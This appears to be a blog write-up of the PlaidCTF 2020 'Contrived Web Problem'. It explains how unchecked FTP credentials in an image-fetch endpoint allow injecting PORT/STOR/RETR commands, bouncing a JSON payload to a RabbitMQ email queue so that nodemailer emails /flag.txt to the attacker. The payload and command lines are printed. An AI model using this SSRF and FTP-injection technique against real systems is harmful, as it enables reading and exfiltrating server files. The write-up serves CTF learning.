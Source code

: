 ```yaml
---
title: "Plaidctf 2020: Contrived Web Problem"
date: 2020-04-28T00:48:12-06:00
draft: false
author: "JamVie"
tags: ["writeups", "web"]
images: ["images/CWP01.png"]
---
```



This was a CTF I unfortunately didn't have the time for, as I was busy doing finals in April :(. My team let me know about this cool and unique problem, and I'm glad they did! 
<!--more-->

This was a journey in understanding internet protocols that deepened my knowledge of them to completely new levels, so I'm really grateful I got the chance to try this problem out - even though I tried it after the CTF ended :P


Let's Begin!
----

This problem really holds up to its name. The website is simple - you have the option to login or register as a new user. 

{{< image src="/images/CWP01.png" alt="Login" position="center" style="border-radius: 8px;" >}}

Uniquely, we are given the source code for the problem. The source code shows us that the program has 6 services:

```
\services
    \api 
    \email (email server, sends emails based on rabbitmq queue)
    \ftp
    \postgres (database)
    \rabbit (email queue, will send requests to the email server)
    \server
...
```

Checking out the code, I see that ```flag.txt``` is actually mentioned. It's in the services dockerfile, which is only used by ```api```, ```email``` and ```server``` services. So, the vulnerability probably is within one of these services. 

I checked out ```api``` first - and I see that the only protocols that it allows are HTTP, HTTPS, and FTP. Aside from the FTP protocol, the other 2 are pretty standard protocols to see in APIs. 

Looking at ```email``` next, which uses [nodemailer](https://nodemailer.com/about/). I'm not too familiar with it, so I check out its documentation: 

{{< image src="/images/CWP02.png" alt="Login" position="center" style="border-radius: 8px;" >}}

This seems like a good loophole to exploit - we just need to specify the filepath and nodemailer will send an email with an attachment of whatever file we specified by the filepath, so we can exploit nodemailer's same origin policy. Since the rabbitmq server is the email server's queue, we will send a rogue email request into rabbitmq's queue to serve up to the email server, which will tell it to email us the flag!

Now the hard part - how _do we_ ask the server? How do we send a request to the server to send us the email with the flag as an attachment? 

I spent a long time trying to figure out how to send a rogue request to the rabbitmq server that will send us the email we want. I spent hours just browsing through the source code, not really paying attention... 

Until I came across this piece of code in the ```api/index.ts``` file: 

```js
    app.get("/image", async (req, res) => {
        let { url } = req.query;
        if (typeof url !== "string") {
            return res.status(500).send("Bad body");
        }

        let parsed = new URL(url);

        let image: Buffer;
        if (parsed.protocol === "http:" || parsed.protocol === "https:") {
            const imageReq = await fetch(parsed.toString(), { method: "GET" });
            image = await (imageReq as any).buffer();
        } 
        
         //THIS PART HERE!
        else if (parsed.protocol === "ftp:") {
            let username = decodeURIComponent(parsed.username);
            let password = decodeURIComponent(parsed.password);
            let filename = decodeURIComponent(parsed.pathname);
            let ftpClient = await connectFtp({
                host: parsed.hostname,
                port: parsed.port !== "" ? parseInt(parsed.port) : undefined,
                user: username !== "" ? username : undefined,
                password: password !== "" ? password : undefined,
            });
            image = await ftpClient.get(filename);
        } else {
            return res.status(500).send("Bad image url");
        }
                if (!isPNG(image)) {
            return res.status(500).send("Bad image (not a png)");
        }

        res.type(".png").status(200).send(image);
    })

    app.listen("4101");

```
Image: the profile picture we would upload when we register as a new user. For HTTP and HTTPS protocols it's a simple GET method, not much to do there. But for FTP? 
It asks for the username, password and filename, _unchecked_, then asynchronously asks the server for the image that matches the filename that we specified. 
FTP is a text-based protocol, and since username and password fields are passed to it unchecked, we could definitely inject some protocol commands, custom data (something like ```{to: "email@example.com", attachments:[{path:"/flag.txt"}]}```), and make FTP send requests that were never intended to be sent. 

Here's something I learned in my internet computing class about the FTP protocol: FTP connections have two modes : "Active" and "Passive". I'll give a heavily truncated explanation of the two modes (if you're interested in learning more about the FTP protocol, check out the [RFC specifications on it](https://tools.ietf.org/html/rfc959)):

-- In active mode, the client will specify the IP of the destination to the server. The FTP server will then send the files to the specified IP. The client establishes the communication channel, tells the server the address to send data to, and the server will then open a data channel to the address. 

-- In passive mode, the server tells the client where the files will be sent to. In this case, the client will then have to open the data channel as well to get the files. By default, applications running FTP will run on passive mode.


The difference in active and passive really lies in the ```RETR``` command in the FTP specifications: active-mode ```RETR``` makes the client stipulate the destination IP, and passive-mode ```RETR``` makes the server stipulate it.

So for this challenge, we can make the FTP client specify the rabbitmq server as the destination IP, and use ```RETR``` to make the FTP server send data to rabbitmq. 

And since the FTP protocol for this application handles for the uploading and retrieval of profile pictures, we just need to hide our payload (which would ask the rabbitmq server to send an email with the flag.txt file in it to us) in our profile picture, specify FTP to operate on active (using ```PORT``` command), and use the ```RETR``` command to let the FTP server send our payload to the rabbitmq server! 

Okay, I've explained alot here. This is the attack plan:

- Craft a payload that will tell the rabbitmq email queue server to email to us, with flag.txt as the attachment. Hide it in the profile picture (make sure its a png). Upload whatever picture it is as our profile picture. 

Here's the payload I crafted (a classic SSRF):
```
{"to":"yourEmailGoesHere@example.com","text":"Hello would you like a flag","attachments":[{"path":"/flag.txt"}]}
```

- Through the username field, input several FTP commands to make the FTP server send our payload to the rabbitmq server. Here, I have made a file called "payload.txt" that has the post request data with the payload in it:

```
PASS blah
PORT 255,255,255,255,80
STOR payload.txt
PORT 172,32,56,72,0, 15672      <-----rabbitmq server and port
RETR payload.txt
```

- Hopefully, the rabbitmq server will send us an email!

```
PCTF{not_that_contrived_i_guess}
```

NOTE: Doing it this way means the FTP server was establishing a connection with the rabbitmq one. However, multiple times I tried this the TCP connection would close immediately after I send my request! I worked around this by sending in a bunch of garbage in my payload.txt file alongside the actual payload, so that at least the TCP connection would have to spend time sending all of that data(think: an unending stream of AAAAAs), and persist long enough for the reponse to be recieved. 

This was a fun way to learn how FTP servers work and how protocols of the internet operate! I'm upset that I didn't have the time to participate when it happened, but nonetheless this was a great challenge :)

Jam
